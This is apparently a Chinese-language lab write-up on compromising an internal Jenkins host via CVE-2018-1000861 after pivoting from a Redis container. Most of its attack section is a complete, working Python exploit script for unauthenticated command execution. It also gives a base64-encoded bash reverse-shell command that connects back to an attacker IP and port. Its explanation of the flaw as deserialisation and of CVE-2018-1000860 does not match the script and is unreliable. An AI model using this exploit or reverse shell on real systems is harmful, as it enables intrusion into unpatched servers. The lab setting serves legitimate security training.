# CVE-2018-1000861：网络拓扑第二层内网攻击过程

## 任务内容：在redis漏洞；cve-2022-0543的容器中对下一层内网，进行扫描，找到靶机，并将其攻陷
---
## 1. 靶标访问入口
通过metasploit中的tcp扫描发现内网的主机



---

## 2. 漏洞原理简述
Jenkins 2.153 及更早版本、LTS 2.138.3 及更早版本使用的 Stapler Web 框架中存在一个代码执行漏洞，该漏洞位于 `stapler/core/src/main/java/org/kohsuke/stapler/MetaClass.java` 中，允许攻击者通过访问构建的 URL 来调用 Java 对象上的某些方法，而这些 URL 并不打算以这种方式调用。
该漏洞是一个高危的**反序列化远程代码执行（RCE）**漏洞，核心问题在于：


- **漏洞链触发**  
  由两个CVE共同构成完整攻击链：
  1. **CVE-2018-1000860**: Stapler框架的CSRF防护绕过漏洞（通过`__stapler_bypass_crumb`参数）。
  2. **CVE-2018-1000861**: Stapler路由机制中的**不安全反序列化**漏洞。
- **关键缺陷点**  
  Jenkins的Stapler框架在解析HTTP请求时，允许攻击者通过特殊构造的参数名（如 `[descriptor].class`）传递**序列化的Java对象**。由于缺乏安全的反序列化验证：
  - 攻击者可注入包含恶意逻辑的 `org.codehaus.groovy.runtime.MethodClosure` 对象。
  - 该对象在反序列化时触发 `MethodClosure#call()` 方法，最终通过Groovy动态执行特性执行任意命令。
- **攻击过程**
   使用`python2 exp.py http://192.170.84.2:8080/ "bash -c {echo, YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjU2LjEwNC8xMjMzMyAwPiYxCg == } | {base64, -d} | {bash, -i}"`
  嵌套的Base64编码反弹Shell指令代码进行攻击，他的功能是建立反向TCP连接到攻击者IP 192.168.56.104 的 12333 端口
- **exp.py文件代码**
```
#!/usr/bin/python
# coding: UTF-8
# author: Orange Tsai(@orange_8361)
# 
# 针对 Jenkins 漏洞 CVE-2018-1000861 和 CVE-2019-1003005 的利用脚本
# 核心漏洞：Stapler框架反序列化RCE + Groovy沙箱绕过

import sys
import requests
from enum import Enum

# 禁用SSL警告（避免自签名证书报错）
try:
    requests.packages.urllib3.disable_warnings()
except:
    pass

# 漏洞利用的关键端点路径
endpoint = 'descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript'

# 定义目标状态枚举
class mode(Enum):
    ACL_PATCHED = 0    # Jenkins已修复ACL绕过
    NOT_JENKINS = 1    # 目标不是Jenkins服务
    READ_ENABLE = 2    # 匿名读取权限开启
    READ_BYPASS = 3    # 可通过CVE-2018-1000861绕过ACL
    ENTRY_NOTFOUND = 999  # 关键端点不存在

def usage():
    '''显示脚本使用说明'''
    print '''
  Usage:
    python exp.py <url> <cmd>
    
  Example:
    python exp.py http://victim:8080/ "whoami"
    '''

def _log(msg, fail=False):
    '''自定义日志输出函数'''
    nb = '[*]' if not fail else '[-]'
    print '%s %s' % (nb, msg)

def _get(url, params=None):
    '''发送HTTP GET请求'''
    r = requests.get(url, verify=False, params=params)
    return r.status_code, r.content

def _add_bypass(url):
    '''添加ACL绕过路径(CVE-2018-1000861)'''
    return url + 'securityRealm/user/admin/'

def check(url):
    '''检测目标漏洞状态'''
    flag, accessible = mode.ACL_PATCHED, False

    # 检查匿名访问权限(ANONYMOUS_READ)
    status, content = _get(url)
    if status == 200 and 'adjuncts' in content:  # 'adjuncts'是Jenkins特有资源
        flag, accessible = mode.READ_ENABLE, True
        _log('ANONYMOUS_READ enabled!')
    elif status == 403:  # 访问被禁止
        _log('ANONYMOUS_READ disabled!')

        # 尝试CVE-2018-1000861 ACL绕过
        status, content = _get(_add_bypass(url))
        if status == 200 and 'adjuncts' in content:
            flag, accessible = mode.READ_BYPASS, True
            _log('ACL bypass successful with CVE-2018-1000861!')
    else:
        flag = mode.NOT_JENKINS
        _log('Target does not appear to be Jenkins', fail=True)

    # 检查漏洞利用端点是否存在(CVE-2019-1003005)
    if accessible:
        if flag is mode.READ_BYPASS:
            url = _add_bypass(url)  # 使用绕过后的URL
            
        # 探测关键端点
        status, content = _get(url + endpoint)
        if status == 404:
            flag = mode.ENTRY_NOTFOUND
            _log('Vulnerable endpoint not found', fail=True)

    return flag

def exploit(url, cmd):
    '''执行命令利用'''
    # 构造Groovy Payload: 将命令hex解码后执行
    # 格式: new String("HEX_CMD".decodeHex()).execute()
    payload = 'public class x{public x(){new String("%s".decodeHex()).execute()}}' % cmd.encode('hex')
    
    # 漏洞触发参数
    params = {
        'sandbox': True,  # 利用沙箱绕过
        'value': payload   # 包含恶意代码的Groovy脚本
    }

    # 发送漏洞利用请求
    status, content = _get(url + endpoint, params)
    
    # 解析响应
    if status == 200:
        _log('Exploit success! Command should be executed.')
    elif status == 405:
        _log('Jenkins has patched the RCE gadget', fail=True)
    else:
        _log('Exploit failed with HTTP status [%d]' % status, fail=True)
        # 输出可能的错误堆栈
        if 'stack trace' in content:
            for line in content.splitlines():
                if line.startswith('Caused:'):
                    _log(line, fail=True)

if __name__ == '__main__':
    if len(sys.argv) != 3:
        usage()
        exit()

    # 处理目标URL格式
    url = sys.argv[1].rstrip('/') + '/'
    cmd = sys.argv[2]

    _log('Checking target: %s' % url)
    flag = check(url)
    
    # 根据检测结果执行利用
    if flag is mode.ACL_PATCHED:
        _log('Target appears patched (Jenkins > 2.137)', fail=True)
    elif flag is mode.NOT_JENKINS:
        _log('Target is not identified as Jenkins', fail=True)
    elif flag is mode.READ_ENABLE:
        _log('Exploiting with direct access')
        exploit(url, cmd)
    elif flag is mode.READ_BYPASS:
        _log('Exploiting with ACL bypass')
        exploit(_add_bypass(url), cmd)
    else:
        _log('Exploit endpoint not found', fail=True)
```

---

## 3. 漏洞存在性检测
### DNSLOG回显确认漏洞存在

通过上述的攻击代码编写嵌套的shell命令，使靶机区访问dnslog网址


## 4.漏洞利用效果检测
#### 建立远程网络代理

#### 连通性测试

#### 是攻击机对靶机进行反弹shell攻击

#### 监听得到shell，获取flag
